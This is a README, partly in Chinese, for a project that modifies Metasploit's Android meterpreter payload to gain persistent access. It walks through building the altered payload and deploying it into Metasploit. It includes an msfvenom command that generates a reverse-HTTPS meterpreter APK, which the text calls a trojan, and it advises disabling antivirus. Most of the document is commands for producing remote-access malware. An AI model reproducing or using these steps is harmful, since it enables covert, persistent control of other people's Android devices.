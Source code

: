 https://github.com/xiaohuanshu/persistent-androidpayload
修改Metasploit安卓Payload源码以实现持久化访问

# Building the Java and Android Meterpreter
只要下载java文件，AS打开androidpayload文件夹，但是mvn命令生成jar文件是在java目录下，而不是androidpayload目录——会出错。
pom.xml有感叹号错误不必理会，mvn package命令会下载缺失Maven文件

1. 根据自身的环境安装Maven(3.5以上版本) 和 Java8

apt-get update

apt-get -y install maven

update-alternatives  --config mvn

update-alternatives  --config javac


2. 安装 [Android SDK](https://developer.android.com/sdk/index.html), 和 [Android NDK](https://developer.android.com/tools/sdk/ndk/index.html) 

3. 安装 Android SDK Platforms最新29, 10 and 19, 并更新 "Android SDK Tools" 和 "Android SDK Platform-tools"

a. AS->File->Setting->System Setting->Android SDK->SDK Platforms

下载Android SDK Platforms——API version 最新的SDK（compileSdkVersion）29+10 +19

b. AS->File->Setting->System Setting->Android SDK->SDK Tools->Show Package Details打勾, 

Android SDK Build Tools

Android SDK Platform-Tools 29.0.5
Android SDK Tools 26.1.1
NDK(Side by side)20.0.055
Cmake 3.10.
Android SDK Build-Tools 25.0.0(AhMyth)
Android Emulator 29.2.11

4. 编译AndroidPayload for Metasploit ... SUCCESS 即成功,并把编译新生成的/java/target/data中android文件夹——复制到Metasploit-framework根目录下的data文件夹。
Android 木马：

cd metasploit-payloads/tree/master/java

mvn package -Dandroid.sdk.path=/root/Android/sdk -Dandroid.release=true -P deploy

返回成功信息：
[INFO] AndroidPayload for Metasploit ...................... SUCCESS [  8.920 s]

[INFO] Android Meterpreter ................................ FAILURE [  4.153 s]

[INFO] BUILD FAILURE

cd /java/target/data

cp -r android /usr/share/metasploit-framework/data

java木马：mvn -D deploy.path=/usr/share/metasploit-framework -P deploy package

5.通过msfvenom命令生成APK:

msfvenom

search android

msfvenom -l payloads

msfvenom -p android/meterpreter_reverse_https  LHOST=10.10.10.102 LPORT=4444 -o payload.apk

返回信息：如果开头出现了这三个WARNING，说明msfvenom生成APK时使用的是我们修改后的版本。 

WARNING: Local file /usr/share/metasploit-framework/data/android/apk is being used

WARNING: Local files may be incompatible with the Metasploit Framework

WARNING: Local file /usr/share/metasploit-framework/data/android/apk/classes.dex is being used


## Building on OSX
```
brew cask install caskroom/versions/java8
brew cask install android-sdk
brew install maven
sdkmanager --licenses
sdkmanager "platforms;android-10"
sdkmanager "platforms;android-19"

#cd metasploit-payloads/java
mvn package -Dandroid.sdk.path=/usr/local/share/android-sdk -Dandroid.release=true -P deploy
```

## Compiling JavaPayload and Java Meterpreter manually

To compile JavaPayload (a Java stager / code loader) and Java Meterpreter for
Metasploit, you need Maven 3.1 or above (Maven 3.5 works at the time of this
writing), and a copy of JDK 8.0 or later. Ensure that `mvn` and `javac` are in
your path and work. Then run

```
mvn package
```

to package all the files needed for Java meterpreter. The two files that you will be generated are:

```
meterpreter/meterpreter/target/meterpreter.jar
meterpreter/stdapi/target/ext_server_stdapi.jar
```

To get Metasploit to use these files, you need to place them in a place where
it can find them. To automatically build and install these files into
Metasploit Framework for testing, run:

```
mvn -P deploy package
```

This will package all the files and copy them into the correct place for
Metasploit, assuming that the metasploit-framework repository is checked out in
an adjacent directory to this one. (`../../metasploit-framework/data/java`). If
you get spurious compilation errors, make sure that there is an exclude rule in
your antivirus for the Metasploit directory (or that your antivirus is
disabled).

If the path to your metasploit framework repository is not
`../../metasploit-framework`, but for example (with Kali Linux)

`/usr/share/metasploit-framework/`, set the deploy.path directive like so:

```
mvn -D deploy.path=/usr/share/metasploit-framework -P deploy package
```

When you are editing this or any other Meterpreter, you will want to make sure
that your copy of metasploit-framework is also up-to-date. We occasionally
update the network protocol between Metasploit and its Payloads, and if the two
do not match, things will probably not work. Metasploit will warn you the first
time it stages a development payload that it is doing so, and that the payload
and Metasploit framework may be incompatible.

Each time you make a change to your code, you must build and deploy the files
into metasploit-framework for it to see the updates. It is not necessary to
restart msfconsole when updating payloads however, as they are read from disk
each time. So, a reasonable strategy when debugging is to leave msfconsole
running with `exploit/multi/handler`, and just install and restage payloads as
needed.

When you are done editing and want to revert Metasploit to use the builtin
payloads, simply delete `data/meterpreter/*.jar` and `data/meterpreter/java`
from your Metasploit framework directory. It will then fall back to the
versions bundled with the metasploit-payloads Ruby gem.

# IDE Support

In case you want to edit/debug JavaPayload for Metasploit or Java Meterpreter
with an IDE, Maven provides plugins to auto-generate project files for your
favourite environment (at least for Eclipse, Netbeans or IntelliJ).

I use Eclipse, so to generate project files I use

```
mvn eclipse:eclipse
```

This will generate project files that can be imported via

**File->Import->Existing Projects into Workspace**

into your Eclipse workspace.

(Note that if this is your first Maven project you want to use in Eclipse, you
also have to run

```
mvn -Declipse.workspace=/path/to/your/workspace eclipse:configure-workspace
```

to set up path variables like `M2_REPO` to point to the correct location.)

For NetBeans or IntelliJ IDEA, refer to the documentation at

http://maven.apache.org/netbeans-module.html
http://maven.apache.org/plugins/maven-idea-plugin/



